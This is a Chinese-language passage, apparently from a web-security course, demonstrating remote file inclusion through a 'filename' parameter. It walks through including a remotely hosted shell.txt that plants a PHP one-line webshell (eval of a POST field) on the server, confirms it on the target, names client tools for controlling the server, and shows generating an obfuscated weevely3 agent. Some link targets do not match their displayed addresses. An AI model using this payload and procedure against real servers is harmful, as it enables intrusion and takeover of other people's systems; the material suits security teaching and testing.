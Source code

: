 给 GET 参数 filename 传递个远程 PHP 文件地址即可包含进去，造成代码执行。我已经在另一台机器上存放 phpinfo.php 执行 phpinfo() 函数，地址是 [http://127.0.0.1/phpinfo.php](http://www.1491.com.tw/phpinfo.php)，phpinfo.php 代码如下：

此处我使用 Trmper Chrome 去抓包，然后在题目上的下拉菜单中选一个，点“提交”：

![图片2.png](https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4CWALTY8AAQPl3E0Ay4160.png)

图 2 用 Tamper Chrome 抓包

得到 GET 请求地址与参数，可以看出用于包含文件的参数 filename 被设置为 "include/file3.php"：

修改 filename 参数为[http:/127.0.0.1/phpinfo.php](http://www.1491.com.tw/phpinfo.php)，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：

phpinfo 执行成功了：

![图片3.png](https://s0.lgstatic.com/i/image/M00/94/50/CgqCHmAX4DSAJYH3AAQINnkRH5s611.png)

图 3 远程文件包含执行 phpinfo

接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不用 PHP 后缀是为了避免在自己服务器被执行。

为了演示，我在 [http://127.0.0.1/shell.txt](http://127.0.0.1/shell.txth) 创建文件（如果你没有自己的服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生成一句话木马：

```
<?php
  $a = "<?php eval(\$_POST['Cknife'])?>";
  file_put_contents("a.php",$a);
?>
```

然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：

成功生成一句话木马文件 a.php：

```
sudo docker exec -it 7286434c6e88 /bin/bash
root@7286434c6e88:/# cat /var/www/html/a.php
<?php eval($_POST['Cknife'])?>
```

与《13 | 文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方法一样，你可以用 Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以直接控制服务器了，此处不再赘述。

前面介绍的一句话木马比较容易被检测到，个人喜欢使用 [weevely3](https://github.com/epinna/weevely3)，因为它支持变形的一句话木马：

```
$ python3 weevely.py
[+] weevely 4.0.1
[!] Error: the following arguments are required: path
[+] Run terminal or command on the target
    weevely <URL> <password> [cmd]
[+] Recover an existing session
    weevely session <path> [cmd]
[+] Generate new agent
    weevely generate <password> <path>
$ python3 weevely.py generate 'test' ./shell.php
Generated './shell.php' with password 'test' of 761 byte size.
```
